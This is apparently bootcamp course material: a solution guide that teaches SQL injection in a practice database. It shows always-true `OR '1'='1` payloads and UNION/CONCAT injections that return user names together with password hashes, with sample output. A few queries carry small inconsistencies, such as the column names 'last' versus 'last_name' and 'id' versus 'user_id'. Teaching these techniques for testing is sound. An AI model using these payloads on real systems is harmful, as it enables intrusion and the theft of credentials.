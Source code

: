 ## Solution Guide: SQL Refresher and Unintended SQL Queries

In this activity, you designed several malicious SQL payloads that you will use in the next activity to test for SQL injection vulnerabilities against the Replicants live production website.

---

1. `select first_name, last_name from users where id = ''`

    - For this query, place a `1` between the single quotes and select Run at the top left of the DB Fiddle page.

      - `select first_name, last_name from users where id = '1'`
      
    - After running the query, the program will output the following:
          
        first_name |	last_name
        ------------ | ------------- 
        admin	| admin
      
2. `select first_name, last_name from users where id = ''`

    - To use the payload for the most common always true query, add `' OR '1' = '1` to the input.
      
    - The following will cause the database to return all the values in the table:

      - `select first_name, last_name from users where user_id = '1' OR '1' = '1' `

    - After running the query, the program will output the following:
      
        first_name | last_name 
        ------------ | ------------- 
        admin | admin
        gordon | brown
        hack | me
        pablo | picasso
        bob | smith
        
3. `select first_name, last_name from users where id = ''`

    - You can use any value for an always true statement as long as it equals itself.

    - The following will also cause the database to return all the values in the table:

      - `select first_name, last_name from users where id = '1' OR 'dog' = 'dog' `
      
    - The new query will return the same results as the previous query:
        
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   

4. **Bonus**: `select first_name, last_name from users where id = ''`

    - Adding the `UNION` command to the query will allow us to pull data from other fields or tables.

    - When adding an additional command with `UNION`, the count of fields requested (2 - first_name, password) needs to match the count of the original request (2 - first_name, last_name):

      - `select first_name, last from users where id = '1' UNION select first_name, password from users where '1' = '1'`

    - Note that `UNION` is basically running two queries together:

      - `select first_name, last from users where id = '1'`  

      - `select first_name, password from users where '1' = '1'`
      
    - The query will return the following:
        
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

    - Note that the one result of the first part of the query is returned, followed by the six results of the second query.

5. **Bonus**: `select first_name, last_name from users where id = ''`

    - To pull data from all four fields, the `UNION` and `CONCAT` command can be added to the request.

    - Because the count of fields requested (3 - first_name, last_name, password) needs to match the count of the original request (2 - first_name, last_name), we need to combine two of the fields with the `CONCAT` command, using the following query:

      - `select first_name, last_name from users where user_id = '1' UNION select CONCAT(first_name,last_name), password from users;
               `
            
    - The query will return the following:
        
      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |


    - Note how the first and last names are combined in the `first_name` field, starting with the second record.

---

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 

